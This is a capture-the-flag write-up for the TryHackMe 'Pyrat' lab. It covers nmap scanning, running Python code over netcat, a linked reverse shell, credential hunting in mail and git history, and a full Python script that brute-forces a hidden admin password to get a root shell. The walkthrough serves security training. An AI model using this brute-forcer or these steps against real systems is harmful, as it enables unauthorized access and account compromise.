







# Pyrat

In this writeup, I will solve the pyrat CTF challenge on tryhackme.
You can find it [here](https://tryhackme.com/room/pyrat)

First I'll start by scanning the machine with Nmap.
```
┌──(root㉿kali)-[~]
└─# nmap 10.10.115.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 21:09 EET
Nmap scan report for pyrat.thm (10.10.115.68)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 2.32 seconds

```
The machine is running http-alt and ssh.

I tried accessing the http server but I got this: 
```
┌──(root㉿kali)-[~]
└─# curl 10.10.115.68:8000
Try a more basic connection
```

So, I tried connecting with netcat.
Looks like it's executing python code.

```
┌──(root㉿kali)-[~]
└─# nc 10.10.115.68 8000
id

whoami
name 'whoami' is not defined
ls
name 'ls' is not defined
print(11)
11
```

I tried opening a reverse shell and it worked!
You can find the reverse shell [here](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)

I then ran linpeas for local enumeration.



I didn't find anything useful.
Then, I read the email of the user 'think'.

```
$ cat /var/mail/think
cat /var/mail/think
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

This looked interesting.
So I checked the github directory found by linpeas.



I then found this config file that contained the password for the user 'think'.



I then logged in via ssh and found the user flag.




Now, to find the root flag.

The hint suggested to keep playing with the custom app.
I ran ```git log -p``` to view all history commits in that github repo.

I found a script called ```pyrat.py.old```



Looks like there is an endpoint called ```admin```.

I tried accessing it via netcat and it prompted me for a password.

So after playing around for a while with that endpoint, I found that it accepts a password 3 times, then I have to type admin again to get prompted for the password.

So, I developed a simple python script to brute force this login.

```python
import socket

def login(s, password):
    try:
        s.send(password.encode())
        res = s.recv(1024).decode().strip()
        print(res)
        if "Password:" != res:
            print(f"[+] Found Password : {password}")
            quit()
    except socket.timeout:
        pass

ip = "10.10.115.68"
port = 8000

cnt = 0
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1)
s.connect((ip, port))
s.send("admin".encode())
res = s.recv(1024)
print(res.decode())

with open("rockyou.txt", "r", encoding="latin1") as wordlist:
    for line in wordlist.readlines():
        print(line)
        if (cnt == 3):
            s.send("admin".encode())
            res2 = s.recv(1024).decode()
            cnt = 0
        login(s, line.strip())
        cnt += 1
```

I then ran the script and found the password.



I then typed 'shell' and that spawned a bash shell as root.
I finally got the root flag.

